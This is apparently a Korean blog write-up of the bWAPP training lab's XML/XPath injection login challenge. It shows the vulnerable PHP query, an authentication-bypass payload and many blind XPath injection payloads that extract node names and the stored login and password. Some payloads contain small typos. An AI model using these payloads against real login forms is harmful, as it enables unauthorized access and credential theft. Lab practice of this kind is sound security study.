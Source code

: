 ```yaml
---
layout: single
title: (bWAPP)XML/XPath Injection (Login Form)
categories: bwapp
tag: [xml injection, xpath injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/xml-xpath%20injection-archive/image.png)
- 로그인 폼이 구현되어 있다.
- 해당 로그인 기능을 XML 을 통해 이루어지는 듯 하다.

![그림 1-2](/assets/image/bwapp/injection/xml-xpath%20injection-archive/image-1.png)
- ' (싱글쿼터) 입력시 페이지 상단에 XML Error가 발생하는 것을 알 수 있다
- Error을 보게되면 XPath 오류로 확인된다.
- 이를 통해 XML 기능에서의 인젝션 취약점이 존재한다는 것을 파악할 수 있다.

![그림 1-3](/assets/image/bwapp/injection/xml-xpath%20injection-archive/image-2.png)
- 사용자의 입력값은 GET 형식으로 전달된다.

> Xpath의 경우 일반적인 SQL 구문과 문법이 서로 상이하다. Xpath 문법에 맞게 인젝션을 수행해야 한다.

>XPath 의 경우 SQL Injection 에서 쓰이는 주석을 통한 터미네이팅 방식이 되지 않아 구문을 완성시키는 인라인 형식으로 공격 하여야 한다.

- 일반적인 로그인 구문에서의 쿼리는 SQL 과 형식은 유사할 것이다.

```php
$result = $xml->xpath("/heroes/hero[login='" . $login . "' and password='" . $password . "']");
```

- 위 코드와 같이 xpath 구문을 사용한다.
- 우선 참값을 넣어보도록 한다.

```sql
' or 1=1 or '1'='1
```

![그림 1-4](image-3.png)
- 위 코드와 같이 입력하게 되면 login=’’ or 1=1 or ‘1’=’1’ and password =’’ 이 성립되며 참으로 인식하게된다.
- 결과가 참일경우 Neo 유저로 로그인 되는 것을 알 수 있으며, 이를 통해 Blind SQLI 와 같이 하나씩 추출하여 XML 노드의 데이터를 획득할 수 있다.

```sql
neo' and count(../child::*)=6 or '1'='1
```

- 해당 count 문을 통해 현재 노드에서 부터 상위(부모)노드로 올라가 하위노드의 개수를 파악할 수 있다.
- 총 6개의 노드가 존재하는 걸 알 수 있다.
- 즉 위 코드를 통해 우리는 /heros 가 최상위 노드의 요소이며 그 아래에 6개의 노드가 존재한다는 걸 알 수 있다.

```sql
neo' and string-length(name(parent::*))=6 or '1'='1
```

- 위 코드를 통해서는 현재 위치하는 /hero 노드의 상위 노드 즉 부모노드의 이름을 알아내기위해 우선 글자 수를 파악할 수 있다.
- 총 6자리임을 알 수 있다.

```sql
neo' and substring(name(parent::*),1,1)='h' or '1'='1
neo' and substring(name(parent::*),2,1)='e' or '1'='1
neo' and substring(name(parent::*),3,1)='r' or '1'='1
neo' and substring(name(parent::*),4,1)='o' or '1'='1
neo' and substring(name(parent::*),5,1)='e' or '1'='1
neo' and substring(name(parent::*),6,1)='s' or '1'='1

neo' and name(parent::*)='heroes' or '1'='1
```

- 위 코드는 상위(부모) 노드의 이름을 한자리씩 유추하기 위해 사용된다.
- 즉 heroes 라는 요소이름이라는 것을 알 수 있다.

```sql
neo' and string-length(name(../child::*[position()=1]))=4 or '1'='1
```

- 위 코드는 현재 위치하는 지점 즉 상위(부모)노드의 하위 노드들의 이름을 파악하기 위한 코드이다.
- position 을 통해 첫 번째 요소 부터 확인할 수 있다.
- 현재 노드의 첫 번째 요소의 이름은 4글자라는 것을 알 수 있다.

```sql
neo' and substring(name(../child::*[position()=1]),1,1)='h' or '1'='1
neo' and substring(name(../child::*[position()=1]),2,1)='e' or '1'='1
neo' and substring(name(../child::*[position()=1]),3,1)='r' or '1'='1
neo' and substring(name(../child::*[position()=1]),4,1)='o' or '1'='1

neo' and name(../child::*[position()=1])='hero' or '1'='1
```

- 위 코드로는 요소의 이름을 하나씩 유추할 수 있다.
- hero 라는 요소를 확인했다.
- 이를 통해 /heroes/hero 노드를 확인 했다.

```sql
neo' and count(/heroes/hero[1]/child::*)=6 or '1'='1
```

- 위 코드를 통해 /heroes/hero 의 첫 번째 요소의 노드들의 개수를 파악할 수 있으며
- 6개라는 것을 알 수 있다.

```sql
neo' and string-length(name(/heroes/hero[1]/child::*[position()=1]))=2 or '1'='1
```

- 위 코드를 통해 /heroes/hero 자식 노드 중 첫 번째 노드의 이름은 2글자인 것을 알 수 있다.

```sql
neo' and substring(name(/heroes/hero[1]/child::*[position()=1]),1,1)='i' or '1'='1
neo' and substring(name(/heroes/hero[1]/child::*[position()=1]),2,1)='d' or '1'='1

neo' andname(/heroes/hero[1]/child::*[position()=1])='id' or '1'='1

neo' and substring(name(/heroes/hero[1]/child::*[position()=2]),1,1)='l' or '1'='1
neo' and substring(name(/heroes/hero[1]/child::*[position()=2]),2,1)='o' or '1'='1
neo' and substring(name(/heroes/hero[1]/child::*[position()=2]),3,1)='g' or '1'='1
neo' and substring(name(/heroes/hero[1]/child::*[position()=2]),4,1)='i' or '1'='1
neo' and substring(name(/heroes/hero[1]/child::*[position()=2]),5,1)='n' or '1'='1
neo' and name(/heroes/hero[1]/child::*[position()=2])='login' or '1'='1
```

- 위 코드를 통해 /heroees/hero 자식 노드 중 첫 번째 노드의 속 이름은 id 인것을 알아냈다.
- 이와 같이 position() 의 값을 바꿔 가며 6가지 노드를 전부 알아낼 수 있다.

```sql
neo' and string-length(string(/heroes/hero[1]/login))=3 or '1'='1
```

- 위 코드를 통해 알아냈던 /heroes/hero[1] 자식 노드 중 login 노드의 텍스트 내용의 길이가 3인걸 알 수 있다.

```sql
neo' and substring(string(/heroes/hero[1]/login),1,1)='n' or '1'='1
neo' and substring(string(/heroes/hero[1]/login),2,1)='e' or '1'='1
neo' and substring(string(/heroes/hero[1]/login),3,1)='o' or '1'='1
neo' and substring(string(/heroes/hero[1]/password),1,1)='t' or '1'='1
neo' and substring(string(/heroes/hero[1]/password),2,1)='r' or '1'='1
neo' and substring(string(/heroes/hero[1]/password),3,1)='i' or '1'='1
neo' and substring(string(/heroes/hero[1]/password),4,1)='n' or '1'='1
neo' and substring(string(/heroes/hero[1]/password),5,1)='i' or '1'='1
neo' and substring(string(/heroes/hero[1]/password)6,1)='t' or '1'='1
neo' and substring(string(/heroes/hero[1]/password),7,1)='y' or '1'='1

neo' and string(/heroes/hero[1]/login)='neo' or '1'='1
neo' and string(/heroes/hero[1]/password)='trinity' or '1'='1
```

- 위 코드를 통해 /heroes/hero[1]/login 노드 속성의 텍스트 내용은 neo로 확인 할 수 있으며
- 패스워드인 trinity도 확인할 수 있다.
- 위 방식과 같이 모든 데이터 조회가 가능하다.

![그림 1-5](/assets/image/bwapp/injection/xml-xpath%20injection-archive/image-4.png)
![그림 1-6](/assets/image/bwapp/injection/xml-xpath%20injection-archive/image-5.png)

- 탈취한 데이터로 로그인할 수 있다.
